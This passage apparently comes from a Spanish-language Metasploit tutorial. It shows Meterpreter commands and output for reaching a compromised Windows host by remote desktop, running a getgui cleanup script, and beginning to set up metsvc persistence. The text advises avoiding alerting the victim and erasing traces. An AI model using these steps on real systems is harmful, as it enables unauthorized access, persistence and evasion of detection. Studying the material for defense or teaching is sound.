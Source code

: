 ```
[*] For cleanup use command: run multi_console_command -rc /root/.msf3/logs/scripts/getgui/clean_up__20110307.0914.rc
```

##### Posteriormente podemos conectarnos al escritorio remoto usando el comando rdesktop con una sintaxis similar al siguiente:

`rdesktop -u juan -p juan 192.168.1.34`

Cabe notar que el usuario y el password especificados pueden corresponder a un usuario creado anteriormente con incógnito, aunque evidentemente se puede utilizar cualquier otro usuario con credenciales validas.

Nota: En sistemas operativos XP y otros que no soporten múltiples sesiones de escritorio remoto, esta acción hará que el usuario logueado en la maquina remota pierda su sesión, por ende es necesario tener prudencia con este tipo de acciones, principalmente para no alertar al usuario sobre las acciones que se están llevando a cabo, esto también aplica a la creación de usuarios, dado que es bastante notorio cuando un usuario se ha creado en el sistema.


##### Finalmente, se limpia lo que se ha hecho para no dejar rastros, para esto se utiliza el comando:

```
meterpreter > run multi_console_command -rc /root/.msf3/logs/scripts/getgui/clean_up__20110307.0914.rc

[*] Running Command List …

[*] Running command reg setval -k ‘HKLM\System\CurrentControlSet\Control\Terminal Server’ -v ‘fDenyTSConnections’ -d "1"

Successful set fDenyTSConnections.

[*] Running command execute -H -f cmd.exe -a “/c sc config termservice start= disabled”

Process 580 created.

[*] Running command execute -H -f cmd.exe -a “/c sc stop termservice”

Process 3184 created.

[*] Running command execute -H -f cmd.exe -a “/c ‘netsh firewall set service type = remotedesktop mode = enable’”

Process 1312 created.
```

metsvc
Permite definir un proceso persistente en la maquina objetivo que se encontrará a la espera de una nueva conexión por parte del atacante, para esto será necesario en primer lugar “migrar” el proceso de la sesión meterpreter actual a otro proceso “persistente” del objetivo, del modo en el que se ha indicando anteriormente con el comando migrate, por este motivo los procesos que resultan mas interesantes son aquellos propios del sistema operativo, posteriormente se puede ejecutar:
